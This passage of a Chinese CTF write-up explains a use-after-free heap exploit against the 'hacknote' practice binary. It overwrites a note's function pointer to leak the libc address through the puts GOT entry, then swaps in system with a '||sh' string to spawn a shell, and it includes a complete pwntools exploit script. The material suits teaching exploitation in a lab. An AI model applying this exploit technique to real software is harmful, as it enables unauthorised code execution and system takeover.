 我们先申请两块大小为24的chunk，然后依次free掉两块chunk，这时堆空间的分布情况如下，然后根据FILO的原则，如果我们此时申请大小为8，那么就会先申请chunk1_header作为chunk2_header的空间，而chunk0_header就会作为chunk2的空间，此时我们进行输入，就会覆盖chunk0_header的内容，而由于存在UAF漏洞，且ptr数组没有删去已经free掉的数据，我们就可以覆盖chunk0_header里存储的chunk0的地址为puts函数的got表地址，输出chunk0的数据，就把puts函数的真实地址泄露出来了，就得到了libc的基址，如法炮制将chunk0_header的输出函数地址覆盖为system函数的地址，后面修改为`||sh` 字符串即可getshell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0159a0436ec820a121.png)

这里之所以是`||sh` 字符串，是因为在输出函数中，参数传入的是该note的地址，他会对该地址进行加4处理，才对应到我们输入的内容的地址，当我们将其修改为system函数的地址后，参数就是system函数的地址所在的地址了，而把该地址中的内容当做字符串就是`p32(system)||sh`，当system执行 p32(system)||sh ，因为无法解析p32(system)，就会转而执行sh，这样我们就拿到了shell。

```
int __cdecl sub_804862B(int a1)
`{`
  return puts(*(const char **)(a1 + 4));
`}`
```

exp:

```
from pwn import *

context(log_level='debug', arch='i386', os='linux')

io = process('./hacknote')
io = remote('node3.buuoj.cn', 26831)
elf = ELF('./hacknote')
libc = ELF('./libc-2.23-32.so')

def add(size, content):
    io.sendlineafter('Your choice :', str(1))
    io.sendafter('Note size :', str(size))
    io.sendafter('Content :', content)

def delete(index):
    io.sendlineafter('Your choice :', str(2))
    io.sendlineafter('Index :', str(index))

def display(index):
    io.sendlineafter('Your choice :', str(3))
    io.sendlineafter('Index :', str(index))

add(24, 'a' * 24)
add(24, 'b' * 24)

delete(0)
delete(1)
# gdb.attach(io)
add(8, p32(0x804862B) + p32(elf.got["puts"]))

display(0)
libc_base = u32(io.recvuntil("\xf7")[-4: ]) - libc.symbols["puts"]
info("libc_base -&gt; 0x%x" % libc_base)

delete(2)
print(hex(libc.symbols['system'] + libc_base))
payload = p32(libc.symbols['system'] + libc_base) + '||sh'
add(8, payload)
# gdb.attach(io)
display(0)

io.interactive()
```
